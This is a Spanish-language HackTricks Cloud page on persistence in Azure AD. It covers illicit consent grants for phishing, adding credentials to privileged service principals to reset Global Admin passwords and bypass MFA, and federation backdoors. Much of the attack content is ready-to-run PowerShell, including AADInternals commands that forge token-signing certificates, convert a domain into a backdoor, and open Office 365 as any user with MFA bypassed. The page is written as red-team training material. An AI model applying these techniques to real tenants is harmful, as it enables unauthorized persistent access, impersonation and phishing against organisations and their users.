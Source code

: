 # Az - Persistencia

{% hint style="success" %}
Aprende y practica Hacking en AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* ¡Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

### Concesión de Consentimiento Ilícito

Por defecto, cualquier usuario puede registrar una aplicación en Azure AD. Por lo tanto, puedes registrar una aplicación (solo para el inquilino objetivo) que requiera permisos de alto impacto con consentimiento de administrador (aprobarlo si eres el administrador) - como enviar correos en nombre de un usuario, gestión de roles, etc. Esto nos permitirá **realizar ataques de phishing** que serían muy **fructíferos** en caso de éxito.

Además, también podrías aceptar esa aplicación con tu usuario como una forma de mantener acceso sobre ella.

### Aplicaciones y Principales de Servicio

Con privilegios de Administrador de Aplicaciones, GA o un rol personalizado con permisos de microsoft.directory/applications/credentials/update, podemos agregar credenciales (secreto o certificado) a una aplicación existente.

Es posible **apuntar a una aplicación con permisos elevados** o **agregar una nueva aplicación** con permisos elevados.

Un rol interesante para agregar a la aplicación sería el **rol de administrador de autenticación privilegiada** ya que permite **restablecer la contraseña** de los Administradores Globales.

Esta técnica también permite **burlar la MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Para la autenticación basada en certificados

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federación - Certificado de Firma de Token

Con privilegios de **DA** en AD local, es posible crear e importar **nuevos certificados de firma de token** y **certificados de descifrado de token** que tengan una validez muy larga. Esto nos permitirá **iniciar sesión como cualquier usuario** cuyo ImmutableID conozcamos.

**Ejecuta** el siguiente comando como **DA en el servidor(es) ADFS** para crear nuevos certificados (contraseña predeterminada 'AADInternals'), añadirlos a ADFS, deshabilitar el cambio automático y reiniciar el servicio:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Luego, actualiza la información del certificado con Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federación - Dominio de Confianza

Con privilegios de GA en un inquilino, es posible **agregar un nuevo dominio** (debe ser verificado), configurar su tipo de autenticación como Federado y configurar el dominio para **confiar en un certificado específico** (any.sts en el comando a continuación) y emisor:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Referencias

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Entrenamiento HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Entrenamiento HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
